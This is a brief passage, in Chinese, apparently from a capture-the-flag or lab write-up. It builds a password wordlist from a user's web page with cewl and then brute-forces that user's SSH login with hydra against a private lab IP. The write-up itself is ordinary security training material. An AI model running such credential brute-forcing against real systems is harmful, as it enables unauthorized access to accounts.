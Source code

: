 ![](img/3ec44c0a67fb327b2182d23ff6c2dbec.png)

[http://](http://10.10.114.209/simeon)

## 嘘

因为我们知道他的密码在这篇文章的某个地方。我在网上搜索制作单词表，找到了一个命令

`cewl [http://10.10.114.209/simeon](http://10.10.114.209/simeon) > wordlist`

> 该命令将返回可用作密码的单词

现在我们已经得到了用户名和密码列表。我们在等什么 XD

```
hydra -l simeon -P wordlist ssh://$IP -v
```

![](img/31640351b47928be864ba826f8f3ea76.png)
